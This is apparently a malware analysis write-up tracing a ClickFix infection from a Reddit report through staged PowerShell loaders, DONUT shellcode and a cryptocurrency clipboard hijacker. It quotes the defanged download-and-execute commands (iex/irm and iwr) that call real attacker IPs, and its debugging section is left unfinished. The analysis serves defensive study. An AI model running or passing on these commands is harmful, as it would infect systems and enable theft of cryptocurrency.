

Anatomy of a ClickFix Malware
Reddit Case Study – Multi-Stage PowerShell → DONUT Loader → C# Compilation Chain

------------------------------------------------------------

Initial Discovery

Source:
https://www.reddit.com/r/antivirus/comments/1qy529j/very_tech_illiterate_very_paranoid_ran_a/

The victim reported executing a PowerShell command obtained from a suspicious webpage.

------------------------------------------------------------

Stage 1 – Initial Execution

Command executed:

powershell -c iex(irm 158[.]94[.]209[.]33 -UseBasicParsing) (01.txt)

Breakdown:
- IEX → Invoke-Expression
- IRM → Invoke-RestMethod

This command downloads remote content from 158[.]94[.]209[.]33
and immediately executes it in memory.

This is a classic fileless PowerShell staging technique.

------------------------------------------------------------

Stage 2 – Secondary Payload (02.txt)

The first script downloads a second PowerShell payload ,
of which this line will be of interest:

$finalPayload = iwr -Uri "178[.]16[.]53[.]70" -UseBasicParsing

- IWR → Invoke-WebRequest
- Pulls the third stage from 178[.]16[.]53[.]70

This confirms a multi-stage loader chain.

------------------------------------------------------------

Stage 3 – Shellcode Retrieval (cpatch.bin)

The third stage retrieves:

$u = "hxxp://94[.]154[.]35[.]115/user_profiles_photo/cptch[.]bin"

Retrieved file:
cptch.bin

------------------------------------------------------------

Shellcode Identification

The binary was identified as DONUT shellcode (v0.9.2) using Detect it easy (DIE).

DONUT is used to:
- Convert PE files (.NET / EXE / DLL)
- Into position-independent shellcode
- For in-memory execution

From DONUT 0.9.2 source code:
The first byte of generated shellcode should be opcode 0xE8.

This matched the retrieved sample.

However:
- Static unpacking attempts failed
- UNDONUT only partially works
- Significant changes occurred between versions 0.9.2 and 0.9.3

Payload extraction was unsuccessful at this stage.

------------------------------------------------------------

Dynamic Execution Attempt

Observed behavior:

load lotta DLL via import generated and retrieved using the function name hashed. -> No import in the import table 
- better stealth 

-----------------------------------
Analysis with long explanation + capture from IDA (prolly later) 
------------------------------------------------------------

Additional Payloads Observed

After execution, additional payloads were fetched:

- **cptchbuild.bin** → secondary DONUT shellcode  
- **clipx64.bin** → C++ compiled program  

---

### cptchbuild.bin (Detected by DIE)

---

### clipx64.bin (Detected by DIE)

Quick virus total : 
https://www.virustotal.com/gui/file/a609325c84a73341fea831ffdb3e29c8d9c1619eb09669cf489abdf9955b4dd6/ -> clipx64.bin -> 'The sample is a cryptocurrency clipboard hijacker designed to intercept and replace wallet addresses.' (from the virus total analyssi) 
https://www.virustotal.com/gui/file/5788aabdff9e405ae8e4d1f16d34a78ebac955f9f3c52488dccc9e4e8c82ea22/ -> cptchbuild (another donut shellcode) 

From:
94[.]154[.]35[.]115

From a pure analysis We'll first find where the dll are loaded 

We got that first function that each time is executed will load a DLL 
We can also see it take a list of DLL name as argument in RBX 

, so let's disect it :
we first find this string  
which hint we are indeed in the part that add the .dll 
a bit down further and we can see a call to this 
but `qword [rsi+30h]` isnt anything like that 
f7 to progress inside that function and it make more sense : 

that's indeed a DLL_loader let's keep a breakpoint on it for now 

once found -> 

------------------------------------------------------------

Infection Chain Summary

User runs PowerShell
        ↓
Stage 1 loader (IEX + IRM)
        ↓
Stage 2 PowerShell
        ↓
Stage 3 downloads DONUT shellcode
        ↓
Shellcode executes
        ↓
Download a secondaire Shellcode + Crypto hijacker 
        ↓
Additional binaries fetched
        ↓
Unknown final C2

------------------------------------------------------------

Conclusion

This case demonstrates:
- Multi-stage fileless PowerShell
- DONUT shellcode loader
- On-the-fly C# compilation
- Living-off-the-land via Microsoft tooling

The final payload remains unidentified, but the execution chain
strongly suggests a modular in-memory implant architecture.
